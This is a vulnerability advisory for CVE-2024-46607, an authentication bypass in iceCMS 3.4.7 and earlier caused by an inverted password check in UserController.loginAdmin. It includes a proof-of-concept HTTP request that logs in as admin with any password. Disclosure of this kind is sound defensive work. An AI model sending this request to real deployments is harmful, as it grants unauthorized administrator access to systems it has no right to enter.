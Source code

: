 **[CVE-ID]**
CVE-2024-46607

**[PRODUCT]**
icecms

**[Vendor of Product]**
https://github.com/Thecosy/iceCMS?tab=readme-ov-file

**[VERSION]**
icecms <=3.4.7

**[Vulnerability Type]**
Incorrect Access Control

**[Description]**
  The bug is in the loginAdmin method in the UserController.java file. The fundamental reason is a code logic error. The verifyPassword method returns true and false. True represents equality, which means the password entered by the user is correct. False represents inequality, which means the password entered by the user is incorrect. In this if statement, when the password is incorrect, the program continues to run directly. However, when the password is correct, an error is reported.

pic-1


In the implementation of the verifyPassword method, the encrypted password in the database is directly compared with the plaintext password passed in by the user. So it is definitely wrong and the authentication is bypassed directly for login.

pic-2

## POC：

Use Burpsuite to send the login data packet as follows. Or log in directly on the login page and enter any password.

```
GET /User/loginAdmin?username=admin&password=asdasdas HTTP/1.1
Host: [IP]
sec-ch-ua: "Chromium";v="123", "Not:A-Brand";v="8"
Accept: application/json, text/plain, */*
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:9528
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:9528/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
pic-3
